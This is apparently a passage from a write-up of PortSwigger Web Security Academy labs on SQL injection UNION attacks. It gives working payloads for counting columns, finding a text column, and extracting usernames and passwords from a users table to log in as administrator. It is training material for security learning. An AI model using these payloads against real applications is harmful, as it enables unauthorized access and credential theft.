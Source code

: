 To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

payload:
Gifts'+union+SELECT+null,null,null+FROM+information_schema.tables--+

# [**_2. SQL injection UNION attack, finding a column containing text_**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

payload:
Lifestyle'+union+SELECT+null,'KgW2go',null+FROM+information_schema.tables--+

# [**_3. SQL injection UNION attack, retrieving data from other tables_**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

base
Pets'+union+SELECT+null,null,null+FROM+information_schema.tables--+

payload:
Pets'+union+SELECT+username,password+FROM+users--+

table:
users

columns:
username
password

final payload:
'+union+SELECT+username,password+FROM+users--+

# **_4. SQL injection UNION attack, retrieving multiple values in a single column_**
